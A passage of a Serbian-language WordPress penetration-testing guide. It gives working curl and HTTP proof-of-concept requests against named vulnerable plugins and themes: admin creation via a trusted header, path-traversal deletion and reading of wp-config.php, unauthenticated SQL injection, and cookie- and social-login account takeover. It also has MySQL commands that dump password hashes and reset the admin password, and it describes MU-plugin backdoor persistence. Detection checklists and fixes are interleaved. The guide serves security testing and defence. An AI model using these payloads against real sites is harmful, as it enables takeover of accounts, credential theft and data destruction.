Lanac od više zahteva može se isporučiti bez čitanja odgovora sa drugog origin-a: otvorite pripremljeni URL instalatora u imenovanom iskačućem prozoru, sačekajte da žrtva obavi uobičajenu prijavu ako je potrebno, sačekajte instalaciju, pa pošaljite skrivenu formu čiji je `target` isti imenovani prozor, na Customizer/AJAX URL. Eksplicitno proverite blokiranje iskačućih prozora, trajanje instalacije, SameSite cookie politiku i stvarne privilegije žrtve. Pogledajte [CSRF](../../pentesting-web/csrf-cross-site-request-forgery.md) za isporuku pomoću ambient credentials i [SOME](../../pentesting-web/xss-cross-site-scripting/some-same-origin-method-execution.md) za srodne obrasce izvršavanja privilegovanih DOM metoda.<sup>[[32]](#references)</sup>

Prilikom pregleda izvornog koda pratite vrednosti URL-a/fragmenta do selector API-ja iza kojih slede `.click()`/`.trigger()`, i uporedite kako svaki potrošač normalizuje vrednost. Dodajte ovu proveru razlika u parsiranju u [metodologiju za web ranjivosti](../../pentesting-web/web-vulnerabilities-methodology.md) i [pregled DOM/client-side source-to-sink](../../pentesting-web/xss-cross-site-scripting/dom-xss.md). Escape-ujte nepouzdane fragmente selektora prema sintaksi selektora i ograničite poklapanje na predviđeni tip čvora; Core ispravka je promenila sink na sledeći obrazac:<sup>[[33]](#references)</sup>

```javascript
$( 'div.theme[data-slug="' + $.escapeSelector( slug ) + '"]' ).trigger( 'click' );
```

Za svaki osetljivi `wp_ajax_` handler, proverite nonce specifičan za akciju pomoću `check_ajax_referer()` **i** nezavisno proverite zahtevanu capability pomoću `current_user_can()`; nonce-ovi služe za zaštitu od CSRF-a, a ne za autorizaciju. Izbegavajte URL-ove paketa i izvršne ulazne tačke koje bira klijent, a svaku instaliranu temu/dodatak tretirajte kao postavljeni PHP kod, čak i pre aktivacije.<sup>[[24]](#references)[[27]](#references)[[32]](#references)</sup>

WordPress 7.1.1 isporučen je sa ispravkom u Core-u, a najavljeni su i bezbednosni backport-i za podržane grane. Ažuriranjem Core-a uklanja se `forced-install selector gadget`, ali se ne popravlja nezavisno nebezbedan callback za instalaciju u temi treće strane, pa je potrebno otkloniti oba dela lanca.<sup>[[33]](#references)[[34]](#references)</sup>

## Posteksploatacija

Izdvojite korisnička imena i lozinke:

```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```

Promenite administratorsku lozinku:

```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('hacked') WHERE ID = 1;"
```

### MU-plugin persistence i skrivena REST upload backdoor vrata

`WPMU_PLUGIN_DIR` podrazumevano upućuje na `wp-content/mu-plugins`. WordPress automatski učitava PHP datoteke koje se nalaze direktno u ovom direktorijumu pre običnih plugina; one se ne prikazuju na podrazumevanoj listi Plugins, ne evidentiraju se kao obični aktivni plugini, ne dobijaju uobičajena obaveštenja o ažuriranjima i ne mogu se deaktivirati standardnim postupkom. Zato napadač koji može proizvoljno da upisuje datoteke može uspostaviti persistence koja se teško uočava tako što će postaviti jedan PHP loader u ovaj direktorijum. Proverite zaseban prikaz **Must-Use** i sam sistem datoteka, umesto da se oslanjate samo na uobičajeni popis plugina.<sup>[[30]](#references)</sup>

Praktičan obrazac je jednokratni uobičajeni plugin ili instalacioni program koji kreira MU-plugin, a zatim se deaktivira i briše. U jednoj pronađenoj implementaciji registrovana je opskurna REST ruta `wp-sec/v1/upload`, proveravani su hardkodirani akreditivi, prihvatane su putanje koje je odabrao napadač, a nalazile su se unutar WordPress korena, i eksplicitno je dozvoljena ekstenzija `.php`. Dakle, akreditiv je štitio backdoor za proizvoljno upisivanje datoteka, umesto da ga ukloni: svako ko bi ga otkrio mogao je da pošalje POST zahtev sa web shell-om ispod web korena i dobije izvršavanje PHP koda.<sup>[[31]](#references)</sup>

Tokom ovlašćene procene ili odgovora na incident, popišite i direktorijum koji se automatski učitava i REST namespace, a zatim pregledajte svaki callback za upload i proverite provere ovlašćenja, kanonsko ograničenje putanja, dozvoljene ekstenzije i smeštanje izvan izvršnih web direktorijuma. WordPress automatski učitava samo PHP datoteke koje se nalaze direktno u MU-plugin direktorijumu, ali mali loader na najvišem nivou može da koristi `require` za učitavanje većeg sadržaja iz poddirektorijuma.<sup>[[30]](#references)[[31]](#references)</sup>

```bash
# The location can be changed in wp-config.php
grep -nE 'WPMU_PLUGIN_(DIR|URL)' wp-config.php
find wp-content/mu-plugins -maxdepth 2 -type f -printf '%TY-%Tm-%Td %TT %p\n' 2>/dev/null
wp plugin list --status=must-use --fields=name,status,version

# REST discovery and source review
curl -s https://target.example/wp-json/ | jq -r '.routes | keys[]' | grep -Ei 'upload|file|wp-sec'
grep -RniE 'register_rest_route|move_uploaded_file|file_put_contents|fopen|copy|ABSPATH|WPMU_PLUGIN_DIR' wp-content/mu-plugins
```

Artefakti sa visokim signalom uključuju novi direktorijum `mu-plugins`, REST registracije čiji `permission_callback` upoređuje podatke zahteva sa ugrađenim tajnama, odredišne putanje izvedene iz korisničkog unosa, instalere koji se sami brišu i uspešan `POST /wp-json/<namespace>/<route>`, nakon kog sledi zahtev za novokreiranu PHP datoteku. Istražite i male datoteke sa upisivim stanjem koje sadrže URL za payload ili prekidač `off`: zaseban kontroler može da rotira infrastrukturu ili uključi i isključi ubačeni sadržaj, bez zamene glavnog plugina. Neočekivana deaktivacija cache plugina ili uklanjanje `WP_CACHE` mogu se koristiti da bi se osiguralo dosledno prikazivanje dinamičke mamke.<sup>[[31]](#references)</sup>

Za fazu isporuke na strani klijenta koja se obično kombinuje s ovim kompromitovanjem, pogledajte [Clipboard Hijacking / ClickFix](../../generic-methodologies-and-resources/phishing-methodology/clipboard-hijacking.md) i [PowerShell download-and-execute](../../windows-hardening/basic-powershell-for-pentesters/README.md#download--execute).

## Pentesting WordPress dodataka

### Površina napada

Razumevanje načina na koji WordPress dodatak izlaže funkcionalnosti ključno je za proveru njegove površine napada. U nastavku su navedene uobičajene ulazne tačke, a ranjivi primeri obrađeni su u navedenom istraživanju.<sup>[[18]](#references)</sup>

- **`wp_ajax`**

Dodaci mogu da izlože funkcije na serveru putem AJAX rukovalaca. Ti callbackovi mogu sadržati greške u logici, autentifikaciji ili autorizaciji. Česta greška je tretiranje posedovanja WordPress nonce-a kao dokaza da pozivalac ima dozvolu za izvršavanje radnje.

Ove funkcije mogu se koristiti za izlaganje funkcije u dodatku:

```php
add_action( 'wp_ajax_action_name', array(&$this, 'function_name'));
add_action( 'wp_ajax_nopriv_action_name', array(&$this, 'function_name'));
```

**Registrovanje `wp_ajax_nopriv_` hook-a čini callback dostupnim neautentifikovanim korisnicima.**

> [!CAUTION]
> `wp_verify_nonce()` proverava vremenski ograničen CSRF token povezan sa akcijom i kontekstom korisnika; on **ne** odobrava izvršavanje akcije niti samo po sebi dokazuje da korisnik ima određenu ulogu. Proveru nonce-a uparite sa odgovarajućom proverom ovlašćenja, kao što je `current_user_can()`.<sup>[[27]](#references)</sup>

- **REST API**

Plugin-i takođe mogu da izlože funkcije putem REST API-ja pozivanjem `register_rest_route()`:

```php
register_rest_route(
    $this->namespace, '/get/', array(
        'methods' => WP_REST_Server::READABLE,
        'callback' => array($this, 'getData'),
        'permission_callback' => '__return_true'
    )
);
```

`permission_callback` je callback funkcije koja proverava da li je dati korisnik ovlašćen da pozove API metodu.

**Ako se koristi ugrađena funkcija `__return_true`, provera korisničkih dozvola se jednostavno preskače.**

- **Direktan pristup PHP datoteci**

WordPress koristi PHP, a konfiguracija veb-servera često omogućava direktan pristup datotekama u direktorijumima dodataka. Zato datoteka dodatka koja pri direktnom zahtevu obavlja osetljive radnje, a pritom ne pokreće proveru ovlašćenja u WordPress-u niti odbija direktan pristup, može izložiti tu funkcionalnost neautentifikovanim korisnicima.

### Javni builder nonce koji stiže do PHP evaluatora na serveru

Kod page builder-a koji imaju API za pregled ili renderovanje na serveru, pratite podešavanja elemenata pod kontrolom klijenta kroz uređivače upita, blokove koda i pozive `eval()`. Važeći nonce nije ovlašćenje ako tema ispisuje isti nonce u javnom HTML-u. U Bricks Builder-u do verzije 1.9.6, javni `bricksData.nonce` prolazio je proveru dozvola za `POST /wp-json/bricks/v1/render_element`. Prosleđeni `loopElement.settings.query.queryEditor` zatim je preko `Bricks\Query` stizao do `eval()`, što je omogućavalo neautentifikovano izvršavanje PHP-a. Zasebna AJAX ruta je imala proveru korisničkih dozvola, zato REST rutu testirajte nezavisno.<sup>[[42]](#references)[[43]](#references)</sup>

Na izolovanoj instanci za koju imate ovlašćenje, preuzmite javnu stranicu i pronađite `bricksData.nonce`, a zatim pošaljite bezopasan PHP izraz u `queryEditor` uz `useQueryEditor: true`. Uporedite prikazani rezultat sa rezultatom dobijenim uz nevažeći nonce i sa zakrpljenom temom. Pronalaženje nonce-a u HTML-u ili registrovane rute samo po sebi ne dokazuje da je PHP sink dostupan. Pri pregledu izvornog koda pratite svaki callback za pregled kroz provere dozvola i pomoćne funkcije za renderovanje sve do eventualnog PHP evaluatora; zahtevajte proveru dozvola pre nego što kod pod kontrolom korisnika stigne do njega.<sup>[[42]](#references)[[43]](#references)</sup>

### Neuspešna dekripcija prenosa rezervne kopije koja dovodi do predvidljivog ključa

Pregledajte prijemnike za rezervne kopije i migraciju koji prihvataju metapodatke o šifrovanom prenosu. U WPvivid Backup do verzije 0.9.123, `decrypt_message()` prosleđivao je vrednost `false` nakon neuspele RSA dekripcije za podešavanje Rijndael ključa u phpseclib-u, što je dovodilo do predvidljivog ključa sastavljenog od nultih bajtova. Ova putanja je zahtevala aktivan ključ za opcionu funkciju **prijema rezervne kopije sa drugog sajta**. Prijemnik `wpvivid_action=send_to_site` takođe je verovao dekriptovanom imenu datoteke, pa je path traversal mogao da upiše datoteku izvan direktorijuma rezervnih kopija, uključujući i izvršnu PHP putanju. Funkcija prijema je podrazumevano isključena, a generisani ključ ističe u roku od 24 sata.<sup>[[44]](#references)</sup>

Za proveru white-box metodom, pratite rezultat RSA dekripcije do inicijalizacije simetrične šifre i proverite da li neuspeh zaustavlja obradu; zatim proverite da li se za odredišnu putanju koristi basename i dozvoljena lista ekstenzija. Za black-box potvrdu na laboratorijskoj instanci sa uključenim prijemnikom, pošaljite namerno nevažeći umotani ključ i šifrovanu **bezopasnu datoteku koja nije PHP** sa path traversal imenom, pa proverite da li se pojavljuje izvan direktorijuma rezervnih kopija. Verzija dodatka ili izložen prijemnik bez aktivnog ključa za prenos nisu dovoljni da se utvrdi mogućnost eksploatacije.<sup>[[44]](#references)</sup>

### Lažno predstavljanje korisnika u REST-u putem trusted header-a (WooCommerce Payments ≤ 5.6.1)

Neki dodaci koriste prečice „trusted header“ za interne integracije ili reverse proxy-je, a zatim na osnovu tog header-a postavljaju kontekst trenutnog korisnika za REST zahteve. Ako upstream komponenta ne veže криптографски header за захтев, нападач може да га лажира и приступи привилегованим REST рутама као администратор.<sup>[[6]](#references)[[7]](#references)</sup>

- Uticaj: neautentifikovana eskalacija privilegija do administratorskog nivoa, kreiranjem novog administratora preko osnovne REST rute za korisnike.
- Primer header-a: `X-Wcpay-Platform-Checkout-User: 1` (postavlja ID korisnika na 1, što je obično prvi administratorski nalog).
- Iskorišćena ruta: `POST /wp-json/wp/v2/users` sa nizom uloge sa povišenim privilegijama.

PoC

```http
POST /wp-json/wp/v2/users HTTP/1.1
Host: <WP HOST>
User-Agent: Mozilla/5.0
Accept: application/json
Content-Type: application/json
X-Wcpay-Platform-Checkout-User: 1
Content-Length: 114

{"username": "honeypot", "email": "wafdemo@patch.stack", "password": "demo", "roles": ["administrator"]}
```

Zašto funkcioniše

- Plugin mapira header koji kontroliše klijent u stanje autentifikacije i preskače provere capability-ja.
- WordPress core proverava odgovarajuće capability-je za kreiranje korisnika na ovoj ruti; ranjivi plugin zaobilazi predviđenu granicu autentifikacije tako što direktno postavlja kontekst trenutnog korisnika na osnovu header-a.

Očekivani pokazatelji uspeha

- HTTP 201 sa JSON telom koje opisuje kreiranog korisnika.
- Novi admin korisnik vidljiv na stranici `wp-admin/users.php`.

Kontrolna lista za detekciju

- Pretražite `getallheaders()`, `$_SERVER['HTTP_...']` ili SDK-ove dobavljača koji čitaju prilagođene header-e da bi postavili kontekst korisnika (npr. `wp_set_current_user()`, `wp_set_auth_cookie()`).
- Pregledajte REST registracije privilegovanih callback funkcija kojima nedostaju robusne provere `permission_callback` i koje se umesto toga oslanjaju na header-e zahteva.
- Potražite upotrebu core funkcija za upravljanje korisnicima (`wp_insert_user`, `wp_create_user`) unutar REST handler-a koji su zaštićeni samo vrednostima header-a.

### Neautentifikovano proizvoljno brisanje datoteka preko wp_ajax_nopriv (Litho Theme <= 3.0)

WordPress teme i plugin-ovi često izlažu AJAX handler-e preko hook-ova `wp_ajax_` i `wp_ajax_nopriv_`. Kada se koristi varijanta **_nopriv_**, **callback postaje dostupan neautentifikovanim posetiocima**, pa svaka osetljiva radnja mora dodatno da primeni:

1. **Proveru capability-ja** (npr. `current_user_can()` ili bar `is_user_logged_in()`), i
2. **CSRF nonce** koji se proverava pomoću `check_ajax_referer()` / `wp_verify_nonce()`, i
3. **Strogu sanitizaciju / validaciju ulaza**.

Litho multipurpose tema (< 3.1) zanemarila je ove 3 mere u funkciji *Remove Font Family* i isporučila sledeći kod (pojednostavljeno):<sup>[[1]](#references)</sup>

```php
function litho_remove_font_family_action_data() {
    if ( empty( $_POST['fontfamily'] ) ) {
        return;
    }
    $fontfamily = str_replace( ' ', '-', $_POST['fontfamily'] );
    $upload_dir = wp_upload_dir();
    $srcdir  = untrailingslashit( wp_normalize_path( $upload_dir['basedir'] ) ) . '/litho-fonts/' . $fontfamily;
    $filesystem = Litho_filesystem::init_filesystem();

    if ( file_exists( $srcdir ) ) {
        $filesystem->delete( $srcdir, FS_CHMOD_DIR );
    }
    die();
}
add_action( 'wp_ajax_litho_remove_font_family_action_data',        'litho_remove_font_family_action_data' );
add_action( 'wp_ajax_nopriv_litho_remove_font_family_action_data', 'litho_remove_font_family_action_data' );
```

Problemi koje uvodi ovaj isečak:

* **Neautentifikovan pristup** – registrovan je hook `wp_ajax_nopriv_`.
* **Nema nonce / provere ovlašćenja** – bilo koji posetilac može da pristupi endpoint-u.
* **Nema sanitizacije putanje** – korisnički kontrolisani string `fontfamily` nadovezuje se na putanju u sistemu datoteka bez filtriranja, što omogućava klasičan traversal pomoću `../../`.

#### Exploitation

Traversal omogućava napadaču da izađe iz predviđenog direktorijuma `litho-fonts` i obriše datoteke u koje PHP/web-server nalog može da upisuje. Na tipičnom rasporedu, sledeći zahtev cilja `wp-config.php`:

```bash
curl -X POST https://victim.com/wp-admin/admin-ajax.php \
     -d 'action=litho_remove_font_family_action_data' \
     -d 'fontfamily=../../../wp-config.php'
```

Iz `<wp-root>/wp-content/uploads/litho-fonts/`, tri sekvence `../` vode do WordPress root direktorijuma. Potrebna dubina zavisi od podešene putanje za otpremanje. Brisanje `wp-config.php` izaziva prekid rada i može da otkrije tok za ponovnu konfiguraciju/instalaciju; da bi to dovelo do takeover-a, dodatno su potrebne odgovarajuće dozvole za sistem datoteka i mogućnost napadača da obezbedi dostupnu konfiguraciju baze podataka.

Drugi značajni ciljevi obuhvataju `.php` datoteke dodataka/tema (kako bi se onesposobili bezbednosni dodaci) ili pravila u `.htaccess` datoteci.

#### Lista za proveru detekcije

* Svaki callback `add_action( 'wp_ajax_nopriv_...')` koji poziva pomoćne funkcije za rad sa sistemom datoteka (`copy()`, `unlink()`, `$wp_filesystem->delete()`, itd.).
* Nadovezivanje nesanitizovanog korisničkog unosa na putanje (potražite `$_POST`, `$_GET`, `$_REQUEST`).
* Izostanak `check_ajax_referer()` i `current_user_can()`/`is_user_logged_in()`.

---

### Privilege escalation putem vraćanja zastarele uloge i nedostajuće provere ovlašćenja (ASE „View Admin as Role“)

Mnogi dodaci implementiraju funkciju „view as role“ ili privremenu promenu uloge tako što čuvaju originalnu(e) ulogu(e) u korisničkim metapodacima kako bi kasnije mogle da se vrate. Ako se putanja za vraćanje oslanja samo na parametre zahteva (npr. `$_REQUEST['reset-for']`) i listu koju održava dodatak, bez provere ovlašćenja i validnog nonce-a, to dovodi do vertikalnog privilege escalation-a.

Primer iz prakse pronađen je u dodatku Admin and Site Enhancements (ASE) (≤ 7.6.2.1). Grana za resetovanje vraćala je uloge na osnovu `reset-for=<username>` ako se korisničko ime nalazilo u internom nizu `$options['viewing_admin_as_role_are']`, ali pre uklanjanja trenutnih uloga i ponovnog dodavanja sačuvanih uloga iz korisničkih metapodataka `_asenha_view_admin_as_original_roles` nije proveravala ni `current_user_can()` ni nonce:<sup>[[3]](#references)[[4]](#references)</sup>

```php
// Simplified vulnerable pattern
if ( isset( $_REQUEST['reset-for'] ) ) {
    $reset_for_username = sanitize_text_field( $_REQUEST['reset-for'] );
    $usernames = get_option( ASENHA_SLUG_U, [] )['viewing_admin_as_role_are'] ?? [];

    if ( in_array( $reset_for_username, $usernames, true ) ) {
        $u = get_user_by( 'login', $reset_for_username );
        foreach ( $u->roles as $role ) { $u->remove_role( $role ); }
        $orig = (array) get_user_meta( $u->ID, '_asenha_view_admin_as_original_roles', true );
        foreach ( $orig as $r ) { $u->add_role( $r ); }
    }
}
```

Zašto je podložno eksploataciji

- Veruje vrednosti `$_REQUEST['reset-for']` i opciji dodatka bez server-side autorizacije.
- Ako je korisnik ranije imao veće privilegije sačuvane u `_asenha_view_admin_as_original_roles`, a zatim mu je nivo pristupa snižen, može da ih vrati pozivanjem putanje za resetovanje.
- U nekim implementacijama, bilo koji autentifikovani korisnik može da pokrene resetovanje za drugo korisničko ime koje se još uvek nalazi u `viewing_admin_as_role_are` (neispravna autorizacija).

Eksploatacija (primer)

```bash
# While logged in as the downgraded user (or any auth user able to trigger the code path),
# hit any route that executes the role-switcher logic and include the reset parameter.
# The plugin uses $_REQUEST, so GET or POST works. The exact route depends on the plugin hooks.
curl -s -k -b 'wordpress_logged_in=...' \
  'https://victim.example/wp-admin/?reset-for=<your_username>'
```

Na ranjivim verzijama ovo uklanja trenutne uloge i ponovo dodaje sačuvane originalne uloge (npr. `administrator`), čime se efektivno eskaliraju privilegije.

Kontrolna lista za detekciju

- Potražite funkcije za menjanje uloga koje čuvaju „originalne uloge“ u user meta (npr. `_asenha_view_admin_as_original_roles`).
- Identifikujte putanje za resetovanje/vraćanje koje:
  - Čitaju korisnička imena iz `$_REQUEST` / `$_GET` / `$_POST`.
  - Menjaju uloge preko `add_role()` / `remove_role()` bez `current_user_can()` i `wp_verify_nonce()` / `check_admin_referer()`.
  - Odobravaju pristup na osnovu niza opcija dodatka (npr. `viewing_admin_as_role_are`), umesto na osnovu ovlašćenja aktera.

---

### Eskalacija privilegija bez autentifikacije putem menjanja korisnika uz poverenje u cookie na javnom hook-u `init` (Service Finder “sf-booking”)

Neki dodaci povezuju pomoćne funkcije za menjanje korisnika sa javnim hook-om `init` i određuju identitet na osnovu cookie-ja kojim upravlja klijent. Ako kod poziva `wp_set_auth_cookie()` bez provere autentifikacije, ovlašćenja i važećeg nonce-a, bilo koji neautentifikovani posetilac može da se prijavi kao proizvoljan korisnik preko njegovog ID-a.

Tipičan ranjivi obrazac (pojednostavljen iz Service Finder Bookings ≤ 6.1):<sup>[[8]](#references)[[9]](#references)</sup>

```php
function service_finder_submit_user_form(){
    if ( isset($_GET['switch_user']) && is_numeric($_GET['switch_user']) ) {
        $user_id = intval( sanitize_text_field($_GET['switch_user']) );
        service_finder_switch_user($user_id);
    }
    if ( isset($_GET['switch_back']) ) {
        service_finder_switch_back();
    }
}
add_action('init', 'service_finder_submit_user_form');

function service_finder_switch_back() {
    if ( isset($_COOKIE['original_user_id']) ) {
        $uid = intval($_COOKIE['original_user_id']);
        if ( get_userdata($uid) ) {
            wp_set_current_user($uid);
            wp_set_auth_cookie($uid);  // 🔥 sets auth for attacker-chosen UID
            do_action('wp_login', get_userdata($uid)->user_login, get_userdata($uid));
            setcookie('original_user_id', '', time() - 3600, '/');
            wp_redirect( admin_url('admin.php?page=candidates') );
            exit;
        }
        wp_die('Original user not found.');
    }
    wp_die('No original user found to switch back to.');
}
```

Zašto je ranjivo

- Javni `init` hook omogućava neautentifikovanim korisnicima da pristupe handleru (nema provere `is_user_logged_in()`).
- Identitet se određuje na osnovu kolačića koji klijent može da izmeni (`original_user_id`).
- Direktan poziv `wp_set_auth_cookie($uid)` prijavljuje podnosioca zahteva kao tog korisnika, bez provere capability-ja ili nonce-a.

Eksploatacija (bez autentifikacije)

```http
GET /?switch_back=1 HTTP/1.1
Host: victim.example
Cookie: original_user_id=1
User-Agent: PoC
Connection: close
```

---

### Razmatranja o WAF-u za WordPress/plugin CVE-ove

Generički edge/server WAF-ovi podešeni su za široke obrasce (SQLi, XSS, LFI). Mnoge ranjivosti WordPressa/pluginova sa velikim uticajem predstavljaju greške u logici aplikacije ili autentifikaciji specifične za aplikaciju, koje izgledaju kao bezazlen saobraćaj osim ako mehanizam ne razume WordPress rute i semantiku pluginova.<sup>[[5]](#references)[[11]](#references)</sup>

Ofanzivne napomene

- Ciljajte endpoint-e specifične za plugin, koristeći čiste payload-e: `admin-ajax.php?action=...`, `wp-json/<namespace>/<route>`, prilagođene rukovaoce datotekama, shortcodes.
- Prvo isprobajte putanje bez autentifikacije (AJAX `nopriv`, REST sa permisivnim `permission_callback`, javni shortcodes). Podrazumevani payload-i često uspevaju bez zamagljivanja.
- Tipični slučajevi sa velikim uticajem: eskalacija privilegija (neispravna kontrola pristupa), proizvoljno otpremanje/preuzimanje datoteka, LFI, open redirect.

Odbrambene napomene

- Ne oslanjajte se na generičke WAF potpise za zaštitu od CVE-ova u pluginovima. Implementirajte zakrpe na nivou aplikacije specifične za ranjivost ili brzo ažurirajte.
- Dajte prednost proverama pozitivnog modela bezbednosti u kodu (ovlašćenja, nonce-ovi, stroga validacija ulaza) u odnosu na negativne regex filtere.

## Zaštita WordPressa

### Redovna ažuriranja

Održavajte WordPress jezgro, pluginove i teme ažurnim, uz staging okruženje i rezervne kopije primerene konkretnom okruženju. Ažuriranja jezgra mogu se konfigurisati u `wp-config.php`:

```bash
define( 'WP_AUTO_UPDATE_CORE', true );
```

Filteri za ažuriranje dodataka i tema treba da budu u dodatku — po mogućstvu must-use plugin-u — a ne direktno u `wp-config.php`, jer WordPress tamo nije u potpunosti učitan:<sup>[[28]](#references)</sup>

```php
add_filter( 'auto_update_plugin', '__return_true' );
add_filter( 'auto_update_theme', '__return_true' );
```

Instalirajte samo pouzdane, održavane WordPress dodatke i teme i uklonite komponente koje više nisu potrebne.<sup>[[29]](#references)</sup>

### Bezbednosni dodaci

- [**Wordfence Security**](https://wordpress.org/plugins/wordfence/)
- [**Sucuri Security**](https://wordpress.org/plugins/sucuri-scanner/)
- [**iThemes Security**](https://wordpress.org/plugins/better-wp-security/)

### **Druge preporuke**

- Preimenujte ili uklonite predvidljiv nasleđeni nalog **admin** nakon što proverite da postoji drugi administrator; sama promena korisničkog imena nije primarna odbrana.
- Koristite **jake, jedinstvene lozinke** i **2FA**.
- Povremeno pregledajte korisnike i njihove mogućnosti.
- Ograničite broj pokušaja prijave i nadgledajte pogađanje lozinki.
- Ograničite pristup putanjama `/wp-login.php` i osetljivim putanjama `/wp-admin/` prema mreži ili dodatnim slojem autentifikacije, kada je to operativno prikladno. Nemojte preimenovati nepostojeću osnovnu datoteku `wp-admin.php` i vodite računa o neophodnim javnim krajnjim tačkama, kao što je `wp-admin/admin-ajax.php`.<sup>[[29]](#references)</sup>

### Neautentifikovani SQL Injection zbog nedovoljne validacije (WP Job Portal <= 2.3.2)

Dodatak za zapošljavanje WP Job Portal izložio je zadatak **savecategory** koji na kraju izvršava sledeći ranjivi kod unutar `modules/category/model.php::validateFormData()`:<sup>[[2]](#references)</sup>

```php
$category  = WPJOBPORTALrequest::getVar('parentid');
$inquery   = ' ';
if ($category) {
    $inquery .= " WHERE parentid = $category ";   // <-- direct concat ✗
}
$query  = "SELECT max(ordering)+1 AS maxordering FROM "
        . wpjobportal::$_db->prefix . "wj_portal_categories " . $inquery; // executed later
```

Problemi koje uvodi ovaj isečak:

1. **Nesaniran korisnički unos** – `parentid` dolazi direktno iz HTTP zahteva.
2. **Nadovezivanje stringova unutar WHERE klauzule** – nema `is_numeric()` / `esc_sql()` / prepared statement.
3. **Dostupno bez autentifikacije** – iako se akcija izvršava preko `admin-post.php`, jedina provera je **CSRF nonce** (`wp_verify_nonce()`), koji svaki posetilac može da preuzme sa javne stranice koja sadrži shortcode `[wpjobportal_my_resumes]`.

#### Exploitation

1. Preuzmite svež nonce:
   ```bash
   curl -s https://victim.com/my-resumes/ | grep -oE 'name="_wpnonce" value="[a-f0-9]+' | cut -d'"' -f4
   ```
2. Ubacite proizvoljan SQL zloupotrebom parametra `parentid`:
   ```bash
   curl -X POST https://victim.com/wp-admin/admin-post.php \
        -d 'task=savecategory' \
        -d '_wpnonce=<nonce>' \
        -d 'parentid=0 OR 1=1-- -' \
        -d 'cat_title=pwn' -d 'id='
   ```
   Potvrdite injection pomoću ponašanja odgovora dokumentovanog za pogođenu verziju (na primer, kontrolisane razlike zasnovane na boolean ili vremenu); ovaj konkretan put upita ne prikazuje sam po sebi proizvoljne izabrane kolone.

### Neautentifikovano preuzimanje proizvoljnih datoteka / Path Traversal (WP Job Portal <= 2.3.2)

Drugi task, **downloadcustomfile**, omogućavao je posetiocima da preuzmu **bilo koju datoteku sa diska** putem path traversal-a. Ranjivi sink nalazi se u `modules/customfield/model.php::downloadCustomUploadedFile()`:<sup>[[2]](#references)</sup>

```php
$file = $path . '/' . $file_name;
...
echo $wp_filesystem->get_contents($file); // raw file output
```

`$file_name` kontroliše napadač i konkatenira se **bez sanitizacije**. Ponovo, jedina prepreka je **CSRF nonce** koji se može pribaviti sa stranice za nastavak.

#### Eksploatacija

```bash
curl -G https://victim.com/wp-admin/admin-post.php \
     --data-urlencode 'task=downloadcustomfile' \
     --data-urlencode '_wpnonce=<nonce>' \
     --data-urlencode 'upload_for=resume' \
     --data-urlencode 'entity_id=1' \
     --data-urlencode 'file_name=../../../wp-config.php'
```
Server odgovara sadržajem datoteke `wp-config.php`, čime otkriva DB kredencijale i auth ključeve.

## Preuzimanje naloga bez autentifikacije putem Social Login AJAX fallback-a (Jobmonster Theme <= 4.7.9)

Mnoge teme/dodaci isporučuju pomoćne funkcije za „social login“ izložene putem `admin-ajax.php`. Ako AJAX akcija dostupna neautentifikovanim korisnicima (`wp_ajax_nopriv_...`) veruje identifikatorima koje je poslao klijent kada nedostaju podaci provajdera, a zatim pozove `wp_set_auth_cookie()`, to dovodi do potpunog authentication bypass-a.<sup>[[10]](#references)</sup>

Tipičan neispravan obrazac (pojednostavljeno)

```php
public function check_login() {
    // ... request parsing ...
    switch ($_POST['using']) {
        case 'fb':     /* set $user_email from verified Facebook token */ break;
        case 'google': /* set $user_email from verified Google token   */ break;
        // other providers ...
        default: /* unsupported/missing provider – execution continues */ break;
    }

    // FALLBACK: trust POSTed "id" as email if provider data missing
    $user_email = !empty($user_email)
        ? $user_email
        : (!empty($_POST['id']) ? esc_attr($_POST['id']) : '');

    if (empty($user_email)) {
        wp_send_json(['status' => 'not_user']);
    }

    $user = get_user_by('email', $user_email);
    if ($user) {
        wp_set_auth_cookie($user->ID, true); // 🔥 logs requester in as that user
        wp_send_json(['status' => 'success', 'message' => 'Login successfully.']);
    }
    wp_send_json(['status' => 'not_user']);
}
// add_action('wp_ajax_nopriv_<social_login_action>', [$this, 'check_login']);
```

Zašto je ranjivo za eksploataciju

- Dostupno je neautentifikovanim korisnicima preko admin-ajax.php (wp_ajax_nopriv_… action).
- Nema provere nonce-a/ovlašćenja pre promene stanja.
- Nedostaje verifikacija OAuth/OpenID provajdera; podrazumevana grana prihvata unos napadača.
- get_user_by('email', $_POST['id']) praćen sa wp_set_auth_cookie($uid) autentifikuje podnosioca zahteva kao bilo koju postojeću email adresu.

Eksploatacija (bez autentifikacije)

- Preduslovi: napadač može da pristupi putanji /wp-admin/admin-ajax.php i zna ili pogodi važeću email adresu korisnika.
- Postavite provider na nepodržanu vrednost (ili ga izostavite) da biste dospeli u podrazumevanu granu i prosledili id=<victim_email>.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: victim.tld
Content-Type: application/x-www-form-urlencoded

action=<vulnerable_social_login_action>&using=bogus&id=admin%40example.com
```

```bash
curl -i -s -X POST https://victim.tld/wp-admin/admin-ajax.php \
  -d "action=<vulnerable_social_login_action>&using=bogus&id=admin%40example.com"
```

Očekivani pokazatelji uspeha

- HTTP 200 sa JSON telom poput {"status":"success","message":"Login successfully."}.
- Set-Cookie: wordpress_logged_in_* za korisnika žrtve; naredni zahtevi su autentifikovani.

Pronalaženje naziva akcije

- Pregledajte temu/dodatak i potražite registracije add_action('wp_ajax_nopriv_...', '...') u kodu za social login (npr. framework/add-ons/social-login/class-social-login.php).
- Pretražite wp_set_auth_cookie(), get_user_by('email', ...) unutar AJAX handlera.

Kontrolna lista za detekciju

- Web logovi koji prikazuju neautentifikovane `POST` zahteve ka `/wp-admin/admin-ajax.php` sa social-login akcijom i `id=<email>`.
- Odgovori 200 sa JSON-om o uspehu neposredno pre autentifikovanog saobraćaja sa iste IP adrese/User-Agent-a.

Ojačavanje bezbednosti

- Nemojte izvoditi identitet iz korisničkog unosa. Prihvatite samo email adrese/ID-jeve koji potiču od validiranog tokena provajdera/ID-ja.
- Zahtevajte CSRF nonce vrednosti i provere capability-ja, čak i za pomoćne funkcije za prijavljivanje; izbegavajte registraciju wp_ajax_nopriv_ osim ako nije neophodna.
- Validirajte i proveravajte OAuth/OIDC odgovore na serveru; odbacujte nedostajuće/nevažeće provajdere (bez rezervne opcije koja koristi POST id).
